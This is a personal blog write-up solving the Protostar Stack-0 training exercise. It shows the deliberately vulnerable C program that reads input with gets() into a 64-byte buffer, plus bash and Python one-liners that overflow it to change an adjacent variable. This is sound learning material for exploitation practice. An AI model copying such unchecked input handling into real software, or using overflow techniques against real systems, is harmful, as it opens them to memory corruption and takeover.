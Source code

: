 ```yaml
---
author: "faizul"
title: "Protostar Stack-00"
date: 2020-09-30T12:00:06+09:00
description: "Exploit-Exercise Protostar Stack-0"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```

 
Low-level exploit, reverse engineering always excite me. Eventhough i did attended one class during Bachelor Degree and learn about Assembly in X86, i only admire this skillset when i relly grind myslef into cybersec and pentest. I try to attend few free training during DefCon and other InfoSec Conference besides doing tutorial from various blog such as MalwareUnicorn, netgarageio and the Exploit Exercise itself. 

This post will be the first entry of me doing Protostar VM by exploit-exercise. While the Stack-0 will be easiest form of Buffer Overflow(for entry), this VM might help me to prepare my aim to gain OSCP in 2021. Enjoy my dumb writing. 

## Problem
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Code provided

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
## Binary execution
![4052c843babad3a3f3a121fa05eaf88f.png](/images/protostar/f6f2ffd342c546f686de2632a76ac35a.png)

## Solution 
Since the code show how `char buffer` only hold `[64]` bit value, lets run this first with 3 bit value. Next, we going to run the binary with value up to 64. To do this, we can use bash script to generate/print value 64 above.



```bash
user@protostar:~$ for a in {1..65}; echo -n a; done

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

you have changed the 'modified' variable
```

Ok, looks like we successfully overwrite the memory area by exploiting the memory buffer overflow technique. 

To make the payload in a form of human readable and beautiful, lets just use python. 

```python
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

